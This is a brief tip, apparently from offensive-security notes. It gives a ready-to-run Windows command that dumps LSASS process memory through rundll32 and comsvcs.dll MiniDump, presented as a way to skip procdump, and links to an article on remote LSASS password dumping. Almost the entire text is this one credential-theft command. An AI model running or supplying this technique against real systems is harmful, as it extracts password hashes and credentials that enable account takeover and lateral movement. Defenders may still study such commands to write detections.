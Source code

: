 Dump LSASS memory no need to use procdump execute the following command as SYSTEM : 

'rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump "<lsass pid> lsass.dmp full"'

https://en.hackndo.com/remote-lsass-dump-passwords/
